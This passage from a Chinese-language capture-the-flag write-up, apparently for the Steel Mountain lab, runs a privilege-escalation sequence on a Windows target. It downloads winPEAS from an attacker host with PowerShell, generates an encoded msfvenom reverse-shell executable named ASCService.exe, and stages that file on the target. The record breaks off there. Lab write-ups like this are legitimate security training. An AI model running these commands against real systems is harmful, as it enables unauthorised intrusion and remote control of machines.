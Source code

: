    C:\Users\bill\Desktop>powershell -c wget "http://10.11.61.123/winPEASx64.exe" -outfile "winPEAS.exe"
   powershell -c wget "http://10.11.61.123/winPEASx64.exe" -outfile "winPEAS.exe"

   C:\Users\bill\Desktop>dir
   dir
   Volume in drive C has no label.
   Volume Serial Number is 2E4A-906A

   Directory of C:\Users\bill\Desktop

   12/04/2023  07:11 AM    <DIR>          .
   12/04/2023  07:11 AM    <DIR>          ..
   09/27/2019  04:42 AM                70 user.txt
   12/04/2023  07:11 AM         1,968,640 winPEAS.exe
                  2 File(s)      1,968,710 bytes
                  2 Dir(s)  44,153,417,728 bytes free

   ```

   + 运行：

   ```
   C:\Users\bill\Desktop>winPEAS.exe
   winPEAS.exe
   ···
   ```
   ![Alt text](/style/image/image-274.png)

+ 使用msfvenom生成一个exe形式的反向shell payload:
   
   ``msfvenom -p windows/shell_reverse_tcp LHOST=10.111.61.123 LPORT=4444 -e x86/shikata_ga_nai -f exe -o ASCService.exe``
   ```
   ┌──(kali㉿kali)-[~/桌面/THM/steelmountion]
   └─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.111.61.123 LPORT=4444 -e x86/shikata_ga_nai -f exe -o ASCService.exe
   [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
   [-] No arch selected, selecting arch: x86 from the payload
   Found 1 compatible encoders
   Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
   x86/shikata_ga_nai succeeded with size 351 (iteration=0)
   x86/shikata_ga_nai chosen with final size 351
   Payload size: 351 bytes
   Final size of exe file: 73802 bytes
   Saved as: ASCService.exe

   ┌──(kali㉿kali)-[~/桌面/THM/steelmountion]
   └─$ ls                
   ASCService.exe  exp.py  nc.exe  PowerUp  winPEASx64.exe
   ```
+ 使用powershell将生成的反向shell文件上传至目标：

   ```
   C:\Users\bill\Desktop>powershell -c wget "http://10.11.61.123/ASCService.exe" -outfile "ASCService.exe"
   powershell -c wget "http://10.11.61.123/ASCService.exe" -outfile "ASCService.exe"
